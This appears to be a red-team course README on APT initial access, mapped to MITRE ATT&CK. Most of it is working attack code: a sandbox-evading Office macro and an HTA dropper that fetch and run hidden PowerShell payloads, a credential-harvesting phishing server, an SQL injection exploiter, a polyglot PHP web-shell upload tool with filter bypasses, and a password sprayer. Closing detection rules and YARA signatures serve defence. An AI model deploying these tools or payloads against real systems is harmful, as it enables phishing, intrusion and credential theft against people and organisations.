

# Phase 2: Initial Access

## 🎯 Overview

Initial Access is the **entry point** for APT operations. This phase focuses on gaining the first foothold into a target environment through various attack vectors. Success in this phase is critical for the entire operation.

### MITRE ATT&CK Mapping
- **Primary Tactic**: Initial Access (TA0001)
- **Techniques Covered**: T1566, T1190, T1133, T1200, T1091, T1195, T1199, T1078

---

## 📚 Attack Vectors

### Vector Classification



---

## 🎣 Phishing Operations

### T1566.001: Spearphishing Attachment

**Attack Flow**:

```mermaid
graph LR
    A[Target Research] --> B[Craft Malicious Document]
    B --> C[Weaponize with Payload]
    C --> D[Craft Convincing Email]
    D --> E[Deliver to Target]
    E --> F[User Opens Attachment]
    F --> G[Payload Execution]
    G --> H[Initial Foothold Established]
    
    style A fill:#e3f2fd
    style G fill:#ff6b6b
    style H fill:#c8e6c9
```


#### Malicious Office Macro

```vba
' Excel VBA Macro - Educational Purpose Only
' T1566.001 - Spearphishing Attachment

Sub Auto_Open()
    ' Disable security warnings
    Application.DisplayAlerts = False
    
    ' Check if running in sandbox
    If Not IsSandbox() Then
        ExecutePayload
    End If
End Sub

Function IsSandbox() As Boolean
    ' Anti-sandbox checks
    Dim userName As String
    Dim computerName As String
    
    userName = Environ("USERNAME")
    computerName = Environ("COMPUTERNAME")
    
    ' Check for common sandbox indicators
    If InStr(LCase(userName), "sandbox") > 0 Or _
       InStr(LCase(userName), "malware") > 0 Or _
       InStr(LCase(computerName), "sandbox") > 0 Then
        IsSandbox = True
    Else
        IsSandbox = False
    End If
End Function

Sub ExecutePayload()
    ' Download and execute Stage 2
    Dim objShell As Object
    Dim objHTTP As Object
    Dim strURL As String
    Dim strPayload As String
    
    strURL = "https://legitimate-looking-domain.com/reports/Q4_analysis.txt"
    
    ' Download payload (obfuscated PowerShell)
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    objHTTP.Open "GET", strURL, False
    objHTTP.Send
    
    If objHTTP.Status = 200 Then
        strPayload = objHTTP.responseText
        
        ' Execute via PowerShell
        Set objShell = CreateObject("WScript.Shell")
        objShell.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand " & strPayload, 0, False
    End If
End Sub
```

#### HTA (HTML Application) Attack

```html
<!DOCTYPE html>
<!-- T1566.001 - HTA Payload Delivery -->
<html>
<head>
    <title>Corporate Security Update</title>
    <HTA:APPLICATION 
        ID="SecurityUpdate"
        APPLICATIONNAME="Security Update"
        ICON="shield.ico"
        SHOWINTASKBAR="no"
        SINGLEINSTANCE="yes">
</head>
<body>
    <h2>Installing Security Update...</h2>
    <p>Please wait while the security update is being applied.</p>
    <script language="VBScript">
        Set objShell = CreateObject("WScript.Shell")
        Set objFSO = CreateObject("Scripting.FileSystemObject")
        
        ' Download Stage 2 payload
        strURL = "https://cdn.legitimate-site.com/assets/config.txt"
        strLocalPath = objShell.ExpandEnvironmentStrings("%TEMP%") & "\sysupdate.ps1"
        
        ' Download using BITS
        strCommand = "bitsadmin /transfer UpdateJob /download /priority high " & strURL & " " & strLocalPath
        objShell.Run strCommand, 0, True
        
        ' Execute PowerShell payload
        If objFSO.FileExists(strLocalPath) Then
            strPS = "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File """ & strLocalPath & """"
            objShell.Run strPS, 0, False
        End If
        
        ' Close HTA window
        window.close()
    </script>
</body>
</html>
```

### T1566.002: Spearphishing Link

#### Credential Harvesting Page

```python
#!/usr/bin/env python3
"""
Credential Harvesting Server - Educational Purpose Only
T1566.002 - Spearphishing Link
"""

from flask import Flask, request, render_template_string, redirect
import logging
from datetime import datetime

app = Flask(__name__)
logging.basicConfig(filename='harvested_creds.log', level=logging.INFO)

# Clone legitimate login page
LOGIN_PAGE_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Corporate Portal - Sign In</title>
    <style>
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .login-container {
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 25px rgba(0,0,0,0.2);
            width: 400px;
        }
        .logo {
            text-align: center;
            margin-bottom: 30px;
            font-size: 24px;
            color: #667eea;
            font-weight: bold;
        }
        input {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 5px;
            box-sizing: border-box;
        }
        button {
            width: 100%;
            padding: 12px;
            background: #667eea;
            color: white;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            font-size: 16px;
        }
        button:hover {
            background: #764ba2;
        }
        .error {
            color: #d32f2f;
            text-align: center;
            margin: 10px 0;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <div class="logo">🏢 Corporate Portal</div>
        
        <div class="error">{{ error }}</div>
        
        <form method="POST" action="/login">
            <input type="email" name="username" placeholder="Email Address" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Sign In</button>
        </form>
        <p style="text-align: center; margin-top: 20px; font-size: 12px; color: #666;">
            Protected by Enterprise Security
        </p>
    </div>
</body>
</html>
"""

@app.route('/')
def index():
    return render_template_string(LOGIN_PAGE_TEMPLATE, error=None)

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    ip_address = request.remote_addr
    user_agent = request.headers.get('User-Agent', '')
    timestamp = datetime.now().isoformat()
    
    # Log harvested credentials
    log_entry = f"{timestamp} | IP: {ip_address} | User: {username} | Pass: {password} | UA: {user_agent}"
    logging.info(log_entry)
    
    # Show error on first attempt (increase credibility)
    if 'attempt' not in request.cookies:
        response = app.make_response(
            render_template_string(LOGIN_PAGE_TEMPLATE, 
                                 error="Invalid credentials. Please try again.")
        )
        response.set_cookie('attempt', '1')
        return response
    
    # Redirect to legitimate site after harvesting
    return redirect('https://www.real-company-portal.com/login', code=302)

if __name__ == '__main__':
    # Use HTTPS with valid certificate (Let's Encrypt)
    # app.run(host='0.0.0.0', port=443, ssl_context='adhoc')
    print("[*] Credential harvesting server started")
    print("[!] For educational purposes only - requires authorization")
    app.run(host='0.0.0.0', port=8080, debug=False)
```

---

## 💥 Exploiting Public-Facing Applications

### T1190: Exploit Public-Facing Application

#### SQL Injection - Authentication Bypass

```python
#!/usr/bin/env python3
"""
SQL Injection Exploitation Framework
T1190 - Exploit Public-Facing Application
"""

import requests
import urllib.parse
from typing import Optional, Dict, List

class SQLiExploiter:
    """Advanced SQL Injection exploitation toolkit"""
    
    def __init__(self, target_url: str, param: str = 'id'):
        self.target_url = target_url
        self.param = param
        self.session = requests.Session()
        
    def test_vulnerability(self) -> bool:
        """Test if target is vulnerable to SQL injection"""
        payloads = [
            "1' OR '1'='1",
            "1' OR '1'='1' --",
            "1' OR '1'='1' /*",
            "admin' --",
            "admin' #",
            "1' UNION SELECT NULL--"
        ]
        
        for payload in payloads:
            try:
                response = self.session.get(
                    self.target_url,
                    params={self.param: payload},
                    timeout=10
                )
                
                # Check for SQLi indicators
                sql_errors = [
                    "sql syntax",
                    "mysql_fetch",
                    "postgresql",
                    "ora-",
                    "sqlite",
                    "mssql"
                ]
                
                if any(error in response.text.lower() for error in sql_errors):
                    print(f"[+] Vulnerability confirmed with payload: {payload}")
                    return True
                    
            except Exception as e:
                print(f"[-] Error testing payload: {e}")
                
        return False
    
    def extract_databases(self) -> List[str]:
        """Extract database names using UNION-based injection"""
        databases = []
        
        # MySQL payload
        payload = "1' UNION SELECT schema_name,NULL FROM information_schema.schemata--"
        
        try:
            response = self.session.get(
                self.target_url,
                params={self.param: payload},
                timeout=10
            )
            
            # Parse response for database names
            # Implementation depends on response format
            print("[+] Database extraction payload executed")
            
        except Exception as e:
            print(f"[-] Error extracting databases: {e}")
            
        return databases
    
    def blind_sqli_bool(self, query: str) -> bool:
        """Boolean-based blind SQL injection"""
        payload_true = f"1' AND ({query}) AND '1'='1"
        payload_false = f"1' AND ({query}) AND '1'='2"
        
        try:
            resp_true = self.session.get(
                self.target_url,
                params={self.param: payload_true}
            )
            resp_false = self.session.get(
                self.target_url,
                params={self.param: payload_false}
            )
            
            # Compare responses
            return len(resp_true.content) != len(resp_false.content)
            
        except Exception as e:
            print(f"[-] Error in blind SQLi: {e}")
            return False
    
    def time_based_sqli(self, delay: int = 5) -> bool:
        """Time-based blind SQL injection"""
        import time
        
        # MySQL time delay payload
        payload = f"1' AND SLEEP({delay})--"
        
        try:
            start = time.time()
            self.session.get(
                self.target_url,
                params={self.param: payload},
                timeout=delay + 5
            )
            elapsed = time.time() - start
            
            # Check if delay occurred
            return elapsed >= delay
            
        except Exception as e:
            return False

# Usage example
if __name__ == "__main__":
    print("[!] SQL Injection Exploitation Framework")
    print("[!] For educational and authorized testing only\n")
    
    target = "http://vulnerable-app.local/user.php"
    exploiter = SQLiExploiter(target, param='id')
    
    if exploiter.test_vulnerability():
        print("[+] Target is vulnerable to SQL injection")
        exploiter.extract_databases()
    else:
        print("[-] Target does not appear vulnerable")
```

#### Remote Code Execution (RCE) via File Upload

```python
#!/usr/bin/env python3
"""
File Upload RCE Exploitation
T1190 - Exploit Public-Facing Application
"""

import requests
import io
from PIL import Image

class FileUploadExploiter:
    """Exploit insecure file upload vulnerabilities"""
    
    def __init__(self, upload_url: str):
        self.upload_url = upload_url
        self.session = requests.Session()
    
    def generate_polyglot_file(self) -> bytes:
        """
        Create a polyglot file (valid image + PHP shell)
        Bypasses basic file type validation
        """
        # Create valid JPEG header
        img = Image.new('RGB', (100, 100), color='white')
        img_buffer = io.BytesIO()
        img.save(img_buffer, format='JPEG')
        img_bytes = img_buffer.getvalue()
        
        # Append PHP web shell
        php_shell = b"""
<?php
// Web Shell - Educational Purpose Only
if (isset($_REQUEST['cmd'])) {
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    die();
}
?>
"""
        
        return img_bytes + php_shell
    
    def bypass_extension_filter(self, filename: str) -> str:
        """Generate filenames that bypass extension filters"""
        bypasses = [
            f"{filename}.php",
            f"{filename}.php5",
            f"{filename}.phtml",
            f"{filename}.php.jpg",  # Double extension
            f"{filename}.jpg.php",
            f"{filename}.php%00.jpg",  # Null byte injection
            f"{filename}.php\x00.jpg",
            f"{filename}.PhP",  # Case manipulation
        ]
        return bypasses
    
    def upload_shell(self, filename: str = "avatar.jpg") -> Optional[str]:
        """Attempt to upload web shell"""
        polyglot = self.generate_polyglot_file()
        
        # Try various bypass techniques
        for bypass_name in self.bypass_extension_filter(filename.split('.')[0]):
            files = {
                'file': (bypass_name, polyglot, 'image/jpeg')
            }
            
            try:
                response = self.session.post(
                    self.upload_url,
                    files=files
                )
                
                if response.status_code == 200:
                    print(f"[+] Upload successful: {bypass_name}")
                    return bypass_name
                    
            except Exception as e:
                print(f"[-] Upload failed for {bypass_name}: {e}")
        
        return None
    
    def execute_command(self, shell_url: str, command: str) -> str:
        """Execute command via uploaded shell"""
        try:
            response = self.session.get(
                shell_url,
                params={'cmd': command}
            )
            return response.text
        except Exception as e:
            return f"Error: {e}"

# Example usage
if __name__ == "__main__":
    print("[!] File Upload RCE Exploiter")
    print("[!] For authorized security testing only\n")
    
    upload_url = "http://vulnerable-app.local/upload.php"
    exploiter = FileUploadExploiter(upload_url)
    
    # Attempt upload
    shell_name = exploiter.upload_shell()
    
    if shell_name:
        shell_url = f"http://vulnerable-app.local/uploads/{shell_name}"
        print(f"[+] Shell URL: {shell_url}")
        
        # Execute command
        result = exploiter.execute_command(shell_url, "whoami")
        print(f"[+] Command output:\n{result}")
```

---

## 🔑 Valid Accounts

### T1078: Valid Accounts + T1110: Brute Force

#### Password Spraying Attack

```python
#!/usr/bin/env python3
"""
Password Spraying Tool
T1078 + T1110.003 - Password Spraying
"""

import requests
import time
from typing import List, Tuple, Optional
from datetime import datetime, timedelta

class PasswordSprayer:
    """
    Password spraying tool for testing weak credentials
    CAUTION: May trigger account lockouts
    """
    
    def __init__(self, target_url: str, lockout_threshold: int = 3, 
                 lockout_duration: int = 30):
        self.target_url = target_url
        self.lockout_threshold = lockout_threshold
        self.lockout_duration = lockout_duration  # minutes
        self.session = requests.Session()
        self.attempts = {}
        
    def load_usernames(self, filename: str) -> List[str]:
        """Load username list from file"""
        try:
            with open(filename, 'r') as f:
                return [line.strip() for line in f if line.strip()]
        except FileNotFoundError:
            print(f"[-] File not found: {filename}")
            return []
    
    def generate_password_list(self) -> List[str]:
        """Generate common weak passwords for spraying"""
        # Season + Year patterns
        current_year = datetime.now().year
        seasons = ['Winter', 'Spring', 'Summer', 'Fall', 'Autumn']
        
        passwords = []
        
        # Common patterns
        passwords.extend([
            'Welcome1!',
            'Password1!',
            'Company123!',
            f'{current_year}',
            'P@ssw0rd',
            'Passw0rd!',
        ])
        
        # Season + Year
        for season in seasons:
            passwords.append(f'{season}{current_year}!')
            passwords.append(f'{season}{current_year}')
        
        # Month + Year
        months = ['January', 'February', 'March', 'April', 'May', 'June',
                  'July', 'August', 'September', 'October', 'November', 'December']
        for month in months:
            passwords.append(f'{month}{current_year}!')
        
        return passwords
    
    def attempt_login(self, username: str, password: str) -> bool:
        """Attempt single login"""
        try:
            response = self.session.post(
                self.target_url,
                data={
                    'username': username,
                    'password': password
                },
                timeout=10
            )
            
            # Check for successful authentication
            # Adjust based on target application
            success_indicators = ['dashboard', 'welcome', 'logout']
            failure_indicators = ['invalid', 'incorrect', 'failed']
            
            response_text = response.text.lower()
            
            if any(indicator in response_text for indicator in success_indicators):
                return True
            
            return False
            
        except Exception as e:
            print(f"[-] Error attempting login: {e}")
            return False
    
    def spray(self, usernames: List[str], passwords: List[str], 
              delay: int = 30) -> List[Tuple[str, str]]:
        """
        Execute password spraying attack
        
        Args:
            usernames: List of usernames to test
            passwords: List of passwords to spray
            delay: Delay between password attempts (minutes)
        
        Returns:
            List of successful (username, password) tuples
        """
        successful = []
        
        print(f"[*] Starting password spray attack")
        print(f"[*] Usernames: {len(usernames)}")
        print(f"[*] Passwords: {len(passwords)}")
        print(f"[*] Delay between attempts: {delay} minutes\n")
        
        for password in passwords:
            print(f"\n[*] Spraying password: {password}")
            print(f"[*] Time: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
            
            for username in usernames:
                # Rate limiting to avoid lockouts
                time.sleep(2)
                
                print(f"[*] Testing {username}...", end='')
                
                if self.attempt_login(username, password):
                    print(f" SUCCESS! ✓")
                    successful.append((username, password))
                    
                    # Log successful credential
                    with open('successful_logins.txt', 'a') as f:
                        f.write(f"{datetime.now().isoformat()} | {username}:{password}\n")
                else:
                    print(" Failed")
            
            # Wait before next password attempt
            if passwords.index(password) < len(passwords) - 1:
                wait_time = delay * 60
                print(f"\n[*] Waiting {delay} minutes before next password...")
                time.sleep(wait_time)
        
        return successful

# Usage example
if __name__ == "__main__":
    print("[!] Password Spraying Tool")
    print("[!] WARNING: May cause account lockouts")
    print("[!] Use only with explicit authorization\n")
    
    target = "https://target-company.com/login"
    sprayer = PasswordSprayer(target, lockout_threshold=5, lockout_duration=30)
    
    # Load usernames (from OSINT or enumeration)
    usernames = sprayer.load_usernames('usernames.txt')
    
    # Generate password list
    passwords = sprayer.generate_password_list()
    
    # Execute spray (30-minute delay between passwords)
    successful = sprayer.spray(usernames, passwords, delay=30)
    
    print(f"\n[+] Attack complete")
    print(f"[+] Successful logins: {len(successful)}")
    for user, pwd in successful:
        print(f"    {user}:{pwd}")
```

---

## 🔗 Supply Chain Compromise

### T1195: Supply Chain Compromise

#### Software Supply Chain Attack Vector

```python
#!/usr/bin/env python3
"""
Supply Chain Analysis Tool
T1195 - Supply Chain Compromise

Analyzes dependencies for potential compromise vectors
"""

import json
import requests
import hashlib
from typing import Dict, List, Optional
from datetime import datetime

class SupplyChainAnalyzer:
    """Analyze software supply chain for security risks"""
    
    def __init__(self):
        self.suspicious_packages = []
        self.vulnerability_database = {}
    
    def analyze_npm_package(self, package_name: str) -> Dict:
        """Analyze NPM package for supply chain risks"""
        registry_url = f"https://registry.npmjs.org/{package_name}"
        
        try:
            response = requests.get(registry_url, timeout=10)
            data = response.json()
            
            analysis = {
                'name': package_name,
                'latest_version': data.get('dist-tags', {}).get('latest'),
                'maintainers': data.get('maintainers', []),
                'dependencies': self._get_dependencies(data),
                'risk_score': self._calculate_risk_score(data),
                'red_flags': self._check_red_flags(data)
            }
            
            return analysis
            
        except Exception as e:
            return {'error': str(e)}
    
    def _get_dependencies(self, package_data: Dict) -> List[str]:
        """Extract package dependencies"""
        latest_version = package_data.get('dist-tags', {}).get('latest')
        if latest_version:
            version_data = package_data.get('versions', {}).get(latest_version, {})
            return list(version_data.get('dependencies', {}).keys())
        return []
    
    def _calculate_risk_score(self, package_data: Dict) -> int:
        """Calculate supply chain risk score (0-100)"""
        risk_score = 0
        
        # Check maintainer count
        maintainers = package_data.get('maintainers', [])
        if len(maintainers) == 1:
            risk_score += 20  # Single maintainer = higher risk
        
        # Check last update
        time_data = package_data.get('time', {})
        if time_data:
            modified = time_data.get('modified')
            if modified:
                last_update = datetime.fromisoformat(modified.replace('Z', '+00:00'))
                days_since_update = (datetime.now(last_update.tzinfo) - last_update).days
                
                if days_since_update > 365:
                    risk_score += 15  # Abandoned package
        
        # Check download count
        # (Would need additional API call to get download stats)
        
        return min(risk_score, 100)
    
    def _check_red_flags(self, package_data: Dict) -> List[str]:
        """Identify red flags in package"""
        red_flags = []
        
        # Check for typosquatting
        name = package_data.get('name', '')
        popular_packages = ['react', 'vue', 'angular', 'express', 'lodash']
        for popular in popular_packages:
            if self._is_typosquat(name, popular):
                red_flags.append(f"Possible typosquat of '{popular}'")
        
        # Check for suspicious scripts
        latest_version = package_data.get('dist-tags', {}).get('latest')
        if latest_version:
            version_data = package_data.get('versions', {}).get(latest_version, {})
            scripts = version_data.get('scripts', {})
            
            suspicious_commands = ['curl', 'wget', 'eval', 'exec', 'child_process']
            for script_name, script_content in scripts.items():
                if any(cmd in script_content for cmd in suspicious_commands):
                    red_flags.append(f"Suspicious command in '{script_name}' script")
        
        return red_flags
    
    def _is_typosquat(self, name1: str, name2: str) -> bool:
        """Check if name1 might be a typosquat of name2"""
        # Simple Levenshtein distance check
        if abs(len(name1) - len(name2)) > 2:
            return False
        
        # Check for common typosquatting patterns
        patterns = [
            name2.replace('l', '1'),  # l -> 1
            name2.replace('o', '0'),  # o -> 0
            name2.replace('i', 'l'),  # i -> l
            name2 + 's',              # pluralization
            name2 + '-js',            # suffix addition
        ]
        
        return name1 in patterns

# Example usage
if __name__ == "__main__":
    analyzer = SupplyChainAnalyzer()
    
    packages_to_analyze = [
        'express',
        'lodash',
        'react'
    ]
    
    for package in packages_to_analyze:
        print(f"\n[*] Analyzing package: {package}")
        analysis = analyzer.analyze_npm_package(package)
        
        if 'error' not in analysis:
            print(f"    Risk Score: {analysis['risk_score']}/100")
            print(f"    Dependencies: {len(analysis['dependencies'])}")
            if analysis['red_flags']:
                print(f"    ⚠️  Red Flags:")
                for flag in analysis['red_flags']:
                    print(f"       - {flag}")
```

---

## 🔒 Detection & Defense

### Detection Methods

#### Network-Based Detection

```yaml
# Suricata rule for detecting common initial access patterns
alert http any any -> $HOME_NET any (
    msg:"Possible Phishing - Credential Harvesting POST";
    flow:established,to_server;
    content:"POST";
    http_method;
    content:"password";
    http_client_body;
    content:"username";
    http_client_body;
    threshold:type threshold, track by_src, count 3, seconds 60;
    classtype:web-application-attack;
    sid:1000001;
    rev:1;
)

alert http any any -> any any (
    msg:"Suspicious File Upload - Potential Web Shell";
    flow:established,to_server;
    content:"POST";
    http_method;
    content:"Content-Type|3a| multipart/form-data";
    http_header;
    content:".php";
    http_client_body;
    pcre:"/\x00/";  # Null byte detection
    classtype:web-application-attack;
    sid:1000002;
    rev:1;
)
```

#### Host-Based Detection

```powershell
# PowerShell script to detect malicious Office macros
# Monitor for Auto_Open/AutoOpen execution

$Events = Get-WinEvent -FilterHashtable @{
    LogName='Microsoft Office Alerts'
    ID=300,301,302
} -MaxEvents 100

foreach ($Event in $Events) {
    $XML = [xml]$Event.ToXml()
    $MacroName = $XML.Event.EventData.Data | Where-Object {$_.Name -eq 'MacroName'} | Select-Object -ExpandProperty '#text'
    
    # Check for suspicious macro names
    $SuspiciousNames = @('Auto_Open', 'AutoOpen', 'Document_Open', 'Workbook_Open')
    
    if ($MacroName -in $SuspiciousNames) {
        Write-Host "[!] Suspicious macro detected: $MacroName" -ForegroundColor Red
        Write-Host "    Time: $($Event.TimeCreated)"
        Write-Host "    Process: $($Event.ProcessId)"
    }
}
```

### YARA Rules

```yara
rule Phishing_Document_Macro {
    meta:
        description = "Detects malicious Office documents with suspicious macros"
        author = "Wan Mohamad Hanis"
        date = "2025-01-26"
        reference = "T1566.001"
    
    strings:
        $macro1 = "Auto_Open" ascii wide
        $macro2 = "AutoOpen" ascii wide
        $macro3 = "Document_Open" ascii wide
        
        $shell1 = "WScript.Shell" ascii wide
        $shell2 = "Shell" ascii wide
        $shell3 = "CreateObject" ascii wide
        
        $download1 = "MSXML2.ServerXMLHTTP" ascii wide
        $download2 = "WinHTTP.WinHTTPRequest" ascii wide
        $download3 = "InternetExplorer.Application" ascii wide
        
        $exec1 = "powershell" ascii wide nocase
        $exec2 = "cmd.exe" ascii wide
        $exec3 = "mshta" ascii wide
    
    condition:
        uint32(0) == 0xE011CFD0 and  // Office document signature
        (
            (1 of ($macro*)) and
            (1 of ($shell*)) and
            (1 of ($download*) or 1 of ($exec*))
        )
}

rule Webshell_PHP {
    meta:
        description = "Detects PHP web shells"
        author = "Wan Mohamad Hanis"
        reference = "T1190"
    
    strings:
        $php = "<?php"
        
        $exec1 = "system(" ascii
        $exec2 = "exec(" ascii
        $exec3 = "shell_exec(" ascii
        $exec4 = "passthru(" ascii
        $exec5 = "eval(" ascii
        
        $request1 = "$_GET" ascii
        $request2 = "$_POST" ascii
        $request3 = "$_REQUEST" ascii
    
    condition:
        $php and (2 of ($exec*)) and (1 of ($request*))
}
```

---

## 📊 MITRE ATT&CK Mapping

| Technique ID | Technique Name | Coverage |
|--------------|----------------|----------|
| T1566.001 | Spearphishing Attachment | ✅ Full |
| T1566.002 | Spearphishing Link | ✅ Full |
| T1566.003 | Spearphishing via Service | ✅ Partial |
| T1190 | Exploit Public-Facing Application | ✅ Full |
| T1133 | External Remote Services | ✅ Partial |
| T1078 | Valid Accounts | ✅ Full |
| T1110.003 | Password Spraying | ✅ Full |
| T1195 | Supply Chain Compromise | ✅ Full |

---

## 🎓 Practical Exercises

### Exercise 1: Phishing Campaign Simulation
Create a complete phishing campaign:
1. Design convincing pretext
2. Craft malicious document
3. Set up credential harvesting page
4. Track success metrics

### Exercise 2: Web Application Exploitation
Practice exploitation techniques:
1. Identify SQL injection vulnerabilities
2. Exploit file upload weaknesses
3. Achieve remote code execution
4. Establish persistent access

### Exercise 3: Password Spraying Lab
Test password spraying techniques:
1. Enumerate valid usernames
2. Generate password list
3. Execute controlled spray
4. Analyze results

---

**Next Phase**: [Execution & Persistence →](../03-execution-persistence/README.md)

**Previous Phase**: [← Reconnaissance](../01-reconnaissance/README.md)
